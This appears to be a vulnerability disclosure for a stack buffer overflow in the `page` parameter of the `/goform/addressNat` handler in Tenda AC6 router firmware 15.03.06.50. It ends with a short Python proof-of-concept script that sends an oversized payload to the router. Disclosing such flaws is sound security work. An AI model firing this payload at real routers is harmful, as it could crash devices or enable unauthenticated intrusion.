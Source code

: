 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/addressNat` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/addressNat` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `page`.

![alt text](image-2.png)

## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/addressNat", payload)
```